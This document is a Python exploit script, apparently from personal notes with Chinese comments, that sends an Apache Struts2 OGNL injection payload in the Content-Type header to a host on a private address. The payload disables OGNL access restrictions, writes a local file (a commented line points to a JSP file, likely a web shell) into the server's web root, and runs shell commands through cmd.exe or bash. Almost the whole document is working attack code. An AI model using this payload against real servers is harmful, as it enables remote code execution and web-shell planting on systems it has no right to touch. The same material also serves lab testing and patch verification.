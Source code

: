 ```python
CURRENT_DIR = Path(__file__).parent
# file_path = CURRENT_DIR / 'index.jsp'
file_path = CURRENT_DIR / "testFile.txt"

content = read_file(file_path)
# encoded_content = content.encode('utf-8')
content_encoded = urllib.parse.quote(content)

# 设置请求的 URL
url = "http://192.168.1.215:8080/"

# filename = "/index.jsp"
filename = "/testFile.txt"


# 设置请求头
headers = {
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.8,es;q=0.6",
    "Connection": "close",
    "Content-Type": f"%{{(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ccccc='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#path=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest').getSession().getServletContext().getRealPath('/')).(#shell='{content_encoded}').(new java.io.BufferedWriter(new java.io.FileWriter(#path+'{filename}').append(new java.net.URLDecoder().decode(#shell,'UTF-8'))).close()).(#cmd='echo \\\"write file to '+#path+'\"+ self.num +\"t00ls.jsp\\\"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{{'cmd.exe','/c',#cmd}}:{{'/bin/bash','-c',#cmd}})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}}.multipart/form-data",
}

# 发送 POST 请求
response = httpx.post(url, headers=headers)

# 打印响应结果
print(response.status_code)
print(response.text)

```

![image-20240920152239164](http://cdn.ayusummer233.top/DailyNotes/202409201522232.png)

![image-20240920152302098](http://cdn.ayusummer233.top/DailyNotes/202409201523134.png)

---